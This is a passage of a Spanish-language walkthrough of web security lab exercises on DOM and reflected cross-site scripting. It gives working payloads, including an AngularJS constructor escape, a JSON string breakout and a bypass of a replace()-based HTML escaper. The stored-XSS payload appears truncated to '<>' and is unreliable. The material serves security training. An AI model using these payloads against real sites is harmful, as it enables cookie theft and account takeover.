Entonces, agregaremos el parametro returnPath con un valor por ejemplo **aaa** y verificamos mediante las heramientas de desarrollador donde encontramos dicho texto.


Entonces generamos el siguiente payload para ejecutar el alert.

```
javascript:alert(document.cookie)
```



## 25. Lab: DOM XSS in AngularJS expression with angle brackets and double quotes HTML-encoded

```
This lab contains a DOM-based cross-site scripting vulnerability in a AngularJS expression within the search functionality.

AngularJS is a popular JavaScript library, which scans the contents of HTML nodes containing the ng-app attribute (also known as an AngularJS directive). When a directive is added to the HTML code, you can execute JavaScript expressions within double curly braces. This technique is useful when angle brackets are being encoded.

To solve this lab, perform a cross-site scripting attack that executes an AngularJS expression and calls the alert function.
```

Entonces, probamos con el payload siguiente

```
{{5-1}}
```

Y vemos como nos devuelve el valor de **4**. Entonces, lo que necesitamos es ejecutar un alert, y para ello hacemos uso de la funcion constructor.

```
{{$on.constructor('alert(1)')()}}
```


## 26. Lab: Reflected DOM XSS

```
This lab demonstrates a reflected DOM vulnerability. Reflected DOM vulnerabilities occur when the server-side application processes data from a request and echoes the data in the response. A script on the page then processes the reflected data in an unsafe way, ultimately writing it to a dangerous sink.

To solve this lab, create an injection that calls the alert() function.
```

Cuando vamos a la seccion de busqueda del laboratorio, nos encontramos con la siguiente linea HTML.

```
<script src='resources/js/searchResults.js'></script>
```

Entonces, enviamos la busqueda e interceptamos los paquetes.



Entonces podemos ver, que existe una respuesta en formato JSON, que obtiene lo que enviamos como si fuera un string, lo cual hace que no pueda ejecutarse, así que intentaremos escapar de ese string usando comilla, y de ser necesario un **\\** para conseguirlo.

```
Payload: "-alert(1)
R:
{"searchTerm":"\"-alert(1)","results":[]}
Payload: \"-alert(1)
R:
{"searchTerm":"\\"-alert(1)","results":[]}
```

 Con ello logramos escapar de las comillas, pero dejamos lo demas de la respuesta con errores de sintaxis. Entonces lo que haremos será cerrar la llave y convertir todo lo demas en un comentario con el siguiente payload.

```
\"-alert(1)}//
```


## 27. Lab: Stored DOM XSS

```
This lab demonstrates a stored DOM vulnerability in the blog comment functionality. To solve this lab, exploit this vulnerability to call the alert() function.
```

Enviamos un comentario y luego actualizamos la pagina. Vamos a la seccion del Burp Proxy, en el historial, vemos un request para cargar los comentario.



Entonces, lo que intentaremos será escapar de todo ello como en el ejemplo anterior.

```
\"-alert(1)}//
```

Pero, como podemos ver, no funciona nuestro payload.



Entonces, revisaremos un poco el codigo de **<script src='resources/js/loadCommentsWithVulnerableEscapeHtml.js'></script>**

Como podemos ver en esta muestra:

```javascript
> let s="holaaaaaaaaaaa"
< undefined
> s
< "holaaaaaaaaaaa"
> s.replace('a', 'o')
< "holoaaaaaaaaaa"
```

El metodo **replace** solo remplaza la primera coincidencia, no las demás, entonces analizando el codigo del JS, encontramos la funcion siguiente:

```javascript
    function escapeHTML(html) {
        return html.replace('<', '&lt;').replace('>', '&gt;');
    }
```

Entonces debemos suponer que solo reemplazará los primeros **< >**. Entonces nuestro payload para el comentario seria el siguiente:

```
<>
```


## 28. Lab: Reflected XSS protected by CSP, with dangling markup attack


